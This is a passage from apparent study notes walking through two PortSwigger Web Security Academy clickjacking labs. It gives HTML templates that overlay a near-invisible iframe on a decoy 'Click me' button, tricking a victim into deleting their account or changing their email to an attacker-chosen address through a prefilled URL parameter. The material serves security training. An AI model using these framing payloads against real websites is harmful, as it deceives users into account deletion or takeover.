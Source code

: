 </style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>  
    ```
3. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID.
    - Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
4. Click **Store** and then **View exploit**.
5. Hover over **Test me** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. **Do not actually click the "Delete account" button yourself.** If you do, the lab will be broken and you will need to wait until it resets to try again (about 20 minutes). If the div does not line up properly, adjust the `top` and `left` properties of the style sheet.
6. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
7. Click on **Deliver exploit to victim** and the lab should be solved.
	![](Pasted%20image%2020241216172828.png)

## 2.   Clickjacking with form input data prefilled from a URL parameter
This lab extends the basic clickjacking example in [Lab: Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed. 

You can log in to your own account using the following credentials: `wiener:peter`

**Analysis**:
1. Log in to the account on the target website.
2. Go to the exploit server and paste the following HTML template into the "Body" section:
   ```html 
   <style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
3. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` with your unique lab ID so that the URL points to the target website's user account page, which contains the "Update email" form.
